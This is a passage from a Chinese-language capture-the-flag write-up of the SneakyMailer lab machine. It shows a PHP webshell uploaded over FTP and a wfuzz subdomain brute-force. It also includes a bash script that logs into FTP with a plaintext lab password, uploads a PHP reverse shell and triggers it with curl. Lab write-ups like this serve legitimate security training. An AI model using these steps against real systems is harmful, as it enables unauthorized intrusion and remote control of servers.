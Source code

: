 ![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030221343167_10434.png)

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030221424155_30647.png)

看目录是http服务的目录
支持php
上传个webshell测试

在kali工作目录准备一个webshell
`$ cp /usr/share/davtest/backdoors/php_cmd.php .`

put到ftp，之前已经用binary转为bin传输模式，不再修改直接put

`put php_cmd.php`

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030221842968_8833.png)

浏览器浏览失败

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030222305539_790.png)

检查

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030222323821_1705.png)

被删除了。

尝试几次后发现，无论是否被删除，浏览器都无法定位到我们上传的文件。

这说名这可能是其他域名下的网站目录。参考文件夹是dev，可能是专门用来开发使用的子域名。

而按照网页上和邮件的显示，网站仍在开发中。也就是子域名仍然存在。
爆破子域名

`wfuzz --sc=200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.10.197 -H "HOST: FUZZ.sneakycorp.htb"`

得到dev

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030235551606_29277.png)

加入hosts

`dev.sneakycorp.htb`

因为会被删除，我们写一句bash，用来快速连续执行

```bash
#!/bin/bash
ftp -v -n 10.10.10.197<<EOF
user developer m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
binary
cd /dev
put php-reverse-shell.php
close
bye
EOF
curl http://dev.sneakycorp.htb/php-reverse-shell.php
```

